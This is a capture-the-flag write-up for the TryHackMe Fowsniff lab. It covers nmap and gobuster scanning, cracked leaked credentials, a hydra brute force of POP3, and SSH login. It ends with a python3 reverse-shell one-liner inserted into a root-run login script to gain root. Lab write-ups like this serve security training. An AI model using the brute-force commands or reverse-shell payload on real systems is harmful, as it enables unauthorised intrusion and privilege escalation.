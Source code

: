 ## Fowsniff_CTF

'export IP=10.10.195.86'

## Hack into the FowSniff organization.
First stage is to do an initial nmap Scan of the IP address given using the nmpa command `nmap -sC -sV -oN nmap/initial $IP` [Initial NMAP Scan Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/nmap/initial).
Once the results from this scan are given which shows that port 80 is open we can do some web enumeration will running a full port scan of the box `nmap -p- -sC -sV -oN nmap/Full $IP` [Full NMAP Scan Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/nmap/FULL).

While that is running we can use gobuster to do a full website `gobuster dir -u http://$IP:80 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan` [GoBuster Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/gobuster/sitescan).
We can also check out the website and see if that holds any clues manually.

![Fowsniff webpage](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Fowsniff_webpage.PNG)

Looking at the page manually did not give us any information so we can also use Google to search the web which allows us to find a twitter account connected to the corporation with the twitter handle `@Fowsniff` When reading the tweets it shows that there are two pastbins linked which are supposedly the passwords for the corporation
The first paste bin
`https://pastebin.com/NrAqVeeX`
The second paste bin
`https://pastebin.com/378rLnGi`

The first one is more important as it contains usernames and hashes and using crackstation to crack the md5 hashes you get:
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd:
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972

With the details we have gathered we can then try and bruteforce the pop3 as the pastebin said that the pop3 server was open.
For this we create a user and password files so that they can be used with hydra

`hydra pop3://$IP -L users.txt -P passwords.txt`

![hydra result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Hydra_Result.PNG)

this shows that we can login with seina and password scoobydoo2

using this information we can then use netcat to connect to the pop3 server to see if we can get any extra information
`nc 10.10.195.86 110`
Once logged in we find there are two emails

![email result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email%20Login.PNG)

retrieving email 1

![mail message1](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email%201.PNG)

Within this email it shows that there is a temporary SSH Password S1ck3nBluff+secureshell

![mail message2](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email2.PNG)

Looking at the second email it seems nothing important although there is a user-name we have not seen before and that is baksteen.

So using this information we can try and ssh into the box 
`ssh baksteen@$IP` with the password S1ck3nBluff+secureshell
This information allows us to login

![SSH Login](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/SSH_Login.PNG)

we can then use the command `id` to find what groups baksteen belongs to and we find out that he belongs to two different groups users and baksteen so using this information we want to enumarate the box.
`find / -group users -type f 2>/dev/null`
looking at the results there is one file that looks interesting /opt/cube/cube.sh

![Enumeration Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/enumeration.PNG)

When using vi on the cube.sh file we find it is the information for the ssh login page as such we could use this to get a reverse shell on the box as this is run by root.

Before we get a revershell we need to know what the box has on it already to run the command the first thing to try is python and python3
running the command `python` tells us that we have python3 installed so we can use python3 to get us a reverse shell using the command from this [pen-test monkey page](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![Reverse Shell](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShell.PNG)

we can then test that this revers shell works by listening on the given port and you should see the following:

![Reverse Shell Test](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShellTest.PNG)

Once we confirmed the sell works we want to exit the ssh shell and restart the netcat listener before trying to login in again and once you are then logged in again you should get the following:

![Reverse Shell Root SSH](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ssh_reverseshell.PNG)

![Reverse Shell Root](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/root_reverseshell.PNG)

Now that we have the reverse shell we can go to roots home folder and find flag.txt.

![Root Flag](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Flag.txt.PNG)
